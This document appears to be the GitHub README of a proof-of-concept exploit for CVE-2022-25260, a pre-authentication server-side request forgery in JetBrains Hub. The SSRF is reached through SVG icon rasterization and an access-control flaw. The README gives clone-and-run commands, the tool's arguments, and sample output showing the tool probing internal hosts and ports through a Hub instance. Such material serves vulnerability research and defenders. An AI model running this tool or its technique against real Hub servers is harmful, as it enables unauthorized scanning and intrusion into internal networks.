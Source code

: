# CVE-2022-25260
JetBrains Hub pre-auth semi-blind server-side request forgery (SSRF)

## Requirements

- JetBrains Hub <2021.1.14276
- JetBrains Hub before 2021.1.14276 was vulneable to improper access control (CVE-2022-34894), which allows an attacker create untrusted services without authentication even if guest user is disabled. This makes it possible to exploit the vulnerablity without any other requirements (normally an attacker should be at least authenticated)

## Usage

Install & run:
```powershell
$ git clone https://github.com/yuriisanin/CVE-2022-25260
$ cd CVE-2022-25260/
$ python3 exploit.py -h

|--------------------------------------------------------------------|
|       CVE-2022-25260 JetBrains Hub pre-auth semi-blind SSRF        |
|           developed by Yurii Sanin (Twitter: @SaninYurii)          |
|--------------------------------------------------------------------|
usage: exploit.py [-h] -hub_url HUB_URL -email EMAIL [-internal_urls_file INTERNAL_URLS_FILE] [-internal_url INTERNAL_URL]

optional arguments:
  -h, --help            show this help message and exit
  -hub_url HUB_URL      Target Hub instance
  -email EMAIL          Email address of any user in the system
  -internal_urls_file INTERNAL_URLS_FILE
                        Path to internal service URLs file
  -internal_url INTERNAL_URL
                        Internal service URL
  
```

Usage:

```powershell
$ python3 exploit.py hub_url http://localhost:8080 -email hello@0d.tf -internal_urls_file ./assets/payloads/urls.txt

|--------------------------------------------------------------------|
|       CVE-2022-25260 JetBrains Hub pre-auth semi-blind SSRF        |
|           developed by Yurii Sanin (Twitter: @SaninYurii)          |
|--------------------------------------------------------------------|
[INFO] - staring scanning for 14 urls.
[INFO] - trying to create Hub service.
[INFO] - Hub service create, serviceId: '02cc6043-1469-4a8e-9a74-b003e721620c'.
[INFO] - trying to request: 'http://127.0.0.1:8080'.
[INFO] - OK. Host 'http://127.0.0.1:8080' is running HTTP service (XML-like response) [FOUND]. Message: 'Attribute name "ng-strict-di" associated with an element type "html" must be followed by the ' = ' character.'.
[INFO] - trying to request: 'http://127.0.0.1:8081'.
[INFO] - OK. Host 'http://127.0.0.1:8081' is DOWN.
[INFO] - trying to request: 'http://google.com'.
[INFO] - OK. Host 'http://google.com' is running HTTP service (presumably XML-like response) [FOUND]. Message: 'The markup in the document preceding the root element must be well-formed.'.
```

**DEMO:**

![CVE-2022-24342 Demo](assets/images/cve-2022-25260.gif)

## How does it work?

The vulnerability was possible due to use of Apache Batik with default settings for user-supplied SVG icon rasterization. You can find more information about exploting server-side SVG rasterization [HERE](https://github.com/yuriisanin/svg2raster-cheatsheet).


## Support

You can follow me on [Twitter](https://twitter.com/SaninYurii), [GitHub](https://github.com/yuriisanin) or [YouTube](https://www.youtube.com/channel/UCLN2EvGxtnucEdrI21PmJZg).
